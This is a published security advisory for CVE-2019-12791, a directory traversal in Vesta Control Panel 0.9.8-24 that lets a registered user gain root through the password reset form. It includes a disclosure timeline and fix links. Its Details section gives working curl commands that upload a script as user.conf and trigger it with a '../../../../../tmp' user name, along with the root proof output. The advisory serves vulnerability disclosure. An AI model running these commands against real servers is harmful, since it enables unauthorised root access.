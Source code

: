 ```yaml
---
title: '[CVE-2019-12791] Vesta Control Panel 0.9.8-24 — Privilege escalation in the password reset form'
description: Privilege escalation to root can be achieved by a regular user via the password reset form exploiting a directory traversal vulnerability.
tags: [Vesta Control Panel, Privilege escalation, password reset]
advisory:
  discovered: 2019-04-17
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-24
  cve: CVE-2019-12791
---
```


## Abstract

The insufficient input sanitization used by the `v-list-user` shell utility allows to perform directory traversal and execute shell files as `root` anywhere in the file system but with a fixed file name.

This coupled with the legitimate ability of registered users to upload files in certain locations on the server grants an attacker the ability to perform privilege escalation from a registered user to `root` by simply requesting a password reset.

[HestiaCP](https://www.hestiacp.com/) (an actively maintained fork of VestaCP) version 1.0.4 is also vulnerable but a fix has been promptly deployed in version 1.0.5.

## Details

The `v-list-user` script accepts an user name as an argument then evaluates the `$VESTA/data/users/$user/user.conf` file and prints some values:[^vesta-variable]

```sh
source $VESTA/data/users/$user/user.conf
```

The only check that is performed against the user name is `is_object_valid 'user' 'USER' "$user"` which basically checks that the path `$VESTA/data/users/$user` is a valid directory. So if `../../../../../tmp` is passed as user name then the file `/tmp/user.conf` is evaluated.[^any-writable]

A registered user can upload files on the server using the `/upload/` endpoint. The following is used to upload the proof script to `/tmp/user.conf`:

```console
$ PHPSESSID=... # grab it from an authenticated regular user session
$ COMMAND='id > /usr/local/vesta/web/proof'
$ echo "$COMMAND" | curl -sk -o /dev/null \
    'https://target.com:8083/upload/?dir=/tmp' \
    -b "PHPSESSID=$PHPSESSID" \
    -F 'files=@-;filename=user.conf'
```

It is then possible to invoke the `v-list-user` utility by requesting a password reset:

```console
$ curl -k https://target.com:8083/reset/ -d 'user=../../../../../tmp'
```

In VestaCP the web server is run by the `admin` user and the password reset page executes the `v-list-user` script with `sudo` thus the `user.conf` is evaluated by `root`.

Check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

[^any-writable]: Any other writable location can be used, e.g., the user home directory.

[^vesta-variable]: `$VESTA` is usually set to `/usr/local/vesta/`.

## Timeline

2019-05-28
: Disclosed to the VestaCP team.

2019-06-10
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-07-29
: Final warning via [GitHub issue](https://github.com/serghey-rodin/vesta/issues/1921) since emails have been ignored.

2019-07-30
: The VestaCP author asks one more week to fix the issue and publish a new release.

2019-07-31
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/bb44f4197b4e5de219bc00197f89517c7e92bc2a) the vulnerability.
